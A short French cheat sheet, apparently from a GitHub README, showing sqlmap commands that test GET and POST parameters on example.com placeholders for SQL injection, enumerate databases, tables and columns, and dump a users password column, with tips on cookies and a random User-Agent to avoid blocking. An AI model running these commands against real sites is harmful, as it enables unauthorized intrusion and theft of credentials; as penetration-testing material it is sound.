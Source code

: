 # sqlmap
1. Tester si l’URL est vulnérable (avec un paramètre GET)
<hr>

Installation

```bash
sudo apt install sqlmap
```
lance :
```bash
sqlmap -u "http://example.com/page.php?id=1" --batch --level=3 --risk=2
```
* `--batch` : passe les questions interactives en mode automatique
* `--level=3` et --risk=2 : testent plus de techniques (un peu plus agressif)

2. Tester un formulaire POST (comme un login)
Supposons que le formulaire POST se fait sur http://example.com/login.php
avec les champs username et password.

Crée un fichier post_data.txt :

```pgsql
username=admin&password=admin
```
Puis lance :

```bash
sqlmap -u "http://example.com/login.php" --data="username=admin&password=admin" --batch --level=3 --risk=2
```
3. Extraire la base de données, tables, colonnes, ou données
Pour lister les bases :

```bash
sqlmap -u "http://example.com/page.php?id=1" --batch --dbs
```
Pour lister les tables dans une base mydb :

```bash
sqlmap -u "http://example.com/page.php?id=1" --batch -D mydb --tables
```
Pour lister les colonnes d’une table users :

```bash
sqlmap -u "http://example.com/page.php?id=1" --batch -D mydb -T users --columns
```
Pour extraire les données d’une colonne password :

```bash
sqlmap -u "http://example.com/page.php?id=1" --batch -D mydb -T users -C password --dump
```
4. Autres options utiles
* `--cookie="PHPSESSID=xyz"` si tu as besoin d’authentification via cookie
* `--random-agent` pour changer l’User-Agent et éviter certains blocages
* `--timeout=10` pour allonger le délai si le serveur est lent

